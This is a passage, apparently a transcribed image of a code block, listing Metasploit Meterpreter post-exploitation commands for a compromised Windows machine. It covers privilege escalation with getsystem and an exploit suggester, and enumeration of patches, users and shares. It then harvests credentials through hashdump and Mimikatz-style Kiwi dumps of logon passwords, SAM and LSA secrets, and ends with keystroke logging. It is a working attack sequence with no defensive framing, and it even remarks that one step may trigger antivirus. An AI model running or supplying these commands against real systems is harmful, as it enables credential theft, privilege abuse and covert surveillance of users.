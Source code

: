 ```bash
getprivs
getsystem
background

# 2) Suggest local privilege escalation exploits
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
back

# 3) Host/Environment enumeration
use post/windows/gather/checkvm
set SESSION 1
run
back

use post/windows/gather/enum_applications
set SESSION 1
run
back

use post/windows/gather/enum_patches
set SESSION 1
run
back

use post/windows/gather/enum_logged_on_users
set SESSION 1
run
back

use post/windows/gather/enum_shares
set SESSION 1
run
back

# 4) Credential harvesting
sessions -i 1
# If SYSTEM, this may work directly:
hashdump
# If hashdump fails or you want a more robust method:
background
use post/windows/gather/smart_hashdump
set SESSION 1
set GETSYSTEM true
run
back

# Load Kiwi (Mimikatz) for creds in memory (prefer 64-bit, elevated session)
sessions -i 1
load kiwi
# Quick sweep of all supported credential providers
creds_all
# Classic Mimikatz logon passwords (may trigger AV/EDR)
kiwi_cmd sekurlsa::logonpasswords
# Dump SAM and LSA secrets via Kiwi
lsa_dump_sam
lsa_dump_secrets

# Optional: Keylogging and screenshots
keyscan_start
# ... wait while user types ...
keyscan_dump
```
